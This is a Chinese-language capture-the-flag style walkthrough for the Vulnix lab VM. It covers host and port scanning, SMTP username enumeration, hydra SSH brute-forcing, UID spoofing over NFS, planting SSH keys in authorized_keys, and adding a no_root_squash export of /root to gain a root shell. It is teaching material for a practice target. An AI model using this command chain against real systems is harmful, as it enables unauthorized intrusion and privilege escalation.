 # 一、信息收集

1. 主机发现，如下，kali的IP为172.16.29.130，那么131应该就是靶机IP了
   
   ```shell
   sudo arp-scan -l
   ```
   
   ![1.png](./img/hacklab-vulnix/1.png)

2. 端口扫描，开放的端口挺多的
   
   ![2.png](./img/hacklab-vulnix/2.png)

3. 发现有smtp服务，nmap没有扫出漏洞。

# 二、getshell

1. 使用smtp-user-enum枚举用户名
   
   ```shell
   smtp-user-enum -M VRFY -U /usr/share/dirb/wordlists/others/names.txt -t 172.16.29.131
   ```
   
   ![3.png](./img/hacklab-vulnix/3.png)

2. 如上，获取到用户名Bin、Irc、Mail、Man、Sys，使用hydra爆破一下ssh
   
   ```shell
   hydra -l user -P /usr/share/wordlists/rockyou.txt 172.16.29.131 ssh -t 4
   ```
   
   ![4.png](./img/hacklab-vulnix/4.png)

3. 如上，成功爆破出ssh口令user/letmein，ssh连接，成功获取到shell
   
   ![5.png](./img/hacklab-vulnix/5.png)

# 三、权限提升

1. 查看内核版本信息
   
   ```shell
   lsb_release -a
   uname -a
   ```
   
   ![6.png](./img/hacklab-vulnix/6.png)

2. 如上，该版本存在脏牛提权漏洞，但是系统没有安装gcc，很遗憾没法利用，没办法，只能再找找其他漏洞，前面端口扫描发现有rpc服务，且2049端口存在nfs网络文件系统，尝试输出并远程挂载
   
   ```shell
   showmount -e 172.16.29.131
   mount 172.16.29.131:/home/vulnix /tmp/mount
   ```
   
   ![7.png](./img/hacklab-vulnix/7.png)
   
   ![8.png](./img/hacklab-vulnix/8.png)

3. 提示权限不够，到之前获取到的shell中看一下/etc/passwd，发现vulnix用户的uid为2008
   
   ![9.png](./img/hacklab-vulnix/9.png)

4. 在kali上创建一个相同uid的vulnix用户再次尝试访问挂载
   
   ```shell
   useradd -u 2008 vulnix
   ```
   
   ![10.png](./img/hacklab-vulnix/10.png)
   
   ![11.png](./img/hacklab-vulnix/11.png)

5. 成功访问挂载，使用vulnix用户生成一个ssh密钥，并将公钥文件复制到/tmp/vulnix/.ssh/authorized_keys和/home/vulnix/.ssh/authorized_keys中，然后使用密钥ssh连接靶机
   
   ```shell
   ssh-keygen -t id_rsa
   ssh -o 'PubkeyAcceptedKeyTypes +ssh-rsa' -i id_rsa vulnix@172.16.29.131
   ```
   
   ![12.png](./img/hacklab-vulnix/12.png)

6. 如上图，成功获取到vulnix用户shell，现在我们拥有了sudoers权限，查看有什么可利用的提权程序
   
   ```shell
   sudo -l
   ```
   
   ![13.png](./img/hacklab-vulnix/13.png)

7. 发现/etc/exports具备root权限，且vulnix用户可以无需密码编辑该文件，查看/etc/exports
   
   ![14.png](./img/hacklab-vulnix/14.png)

8. 修改改文件，开放root目录，将下面的内容添加到/etc/exports末尾
   
   ```shell
   /root    *(rw,no_root_squash)
   ```

9. 重启靶机，再次查看靶机网络文件共享，如下，成功开放了root目录
   
   ```shell
   showmount -e 172.16.29.131
   ```
   
   ![15.png](./img/hacklab-vulnix/15.png)

10. 挂载root目录
    
    ```shell
    mount -t nfs 172.16.29.131:/root /tmp/r
    ```

11. 以root身份生成新的密钥，并将公钥文件复制到/tmp/r/.ssh/authorized_keys文件中
    
    ![16.png](./img/hacklab-vulnix/16.png)

12. 通过密钥文件连接靶机，成功获取到root权限
    
    ```shell
    ssh -o 'PubkeyAcceptedKeyTypes +ssh-rsa' -i id_rsa root@172.16.29.131
    ```
    
    ![17.png](./img/hacklab-vulnix/17.png)